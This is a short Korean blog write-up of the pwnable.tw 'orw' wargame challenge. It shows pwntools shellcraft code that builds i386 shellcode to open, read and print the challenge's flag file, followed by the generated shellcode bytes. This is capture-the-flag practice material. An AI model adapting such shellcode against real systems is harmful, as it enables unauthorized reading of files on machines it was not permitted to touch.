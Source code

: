 ```yaml
---
layout: post
title: ! ' [pwnable.tw] orw (100pt) '
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Wargame
---
```


심심해서 [pwnable.tw](https://pwnable.tw/challenge/) 쉬운 문제 풀었다.

근데 쉘크래프트 써본게 처음이라 정리 해 본다.

<!--more-->

## 개요

사실 이전에도 그랬고, 한땀 한 땀 `shellcode` 작성하다가 화가 나는 경험을 많이 했다.

그런데 이번에 문제풀다가 코드 자체를 잘못짰다는걸 깨닫고 멘붕에 빠져서 푸는걸 접으려고 했는데, `pwntools`에서 제공하는 `shellcraft` 생각이 나서 마지막으로 속는다고 생각하고 공부했다.

그런데 공부하길 잘한 것 같다 :D



## orw

문제는 그렇게 안 어렵다. 쉘 코드를 올리면 바로 실행되는데 대신 시스템 콜은 o(pen), r(ead), w(rite)만 가능하다. 근데 저거 주면... 당연히 다 준거다...

쉘 코드를 만들 줄 아냐고 물어보는 문제 같은데, 만들다가 너무 귀찮아서 때려칠려는 찰나 `shellcraft`느님이 강림하셨으니!!!



## Generating Shellcode

```python
from pwn import *

context(arch='i386', os='linux')

def genCode(sc) :
    return "".join(['\\x{:02X}'.format(ord(i)) for i in asm(sc)])

#print "".join(['\\x{:02X}'.format(ord(i)) for i in asm(shellcraft.open('/home/orw/flag').rstrip())])

shellcode = (genCode(shellcraft.open('/home/orw/flag').rstrip()))
shellcode += (genCode(shellcraft.syscall('SYS_read', 3, 'esp', 64).rstrip()))
shellcode += (genCode(shellcraft.syscall('SYS_write', 1, 'esp', 64).rstrip()))

print shellcode
log.info(len(shellcode))
```

> root@ubuntu:~/challenges/pwnable.tw/orw# python shellcode.py 
>
> \x68\x01\x01\x01\x01\x81\x34\x24\x60\x66\x01\x01\x68\x77\x2F\x66\x6C\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\x6A\x05\x58\xCD\x80\x6A\x03\x58\x6A\x03\x5B\x89\xE1\x6A\x40\x5A\xCD\x80\x6A\x04\x58\x6A\x01\x5B\x89\xE1\x6A\x40\x5A\xCD\x80
>
> [*] 256

와우...

쉘코드가... 그냥 뚝딱 하고 나와버린다.

사랑합니다 `pwntools` ㅠㅠㅠㅠㅠ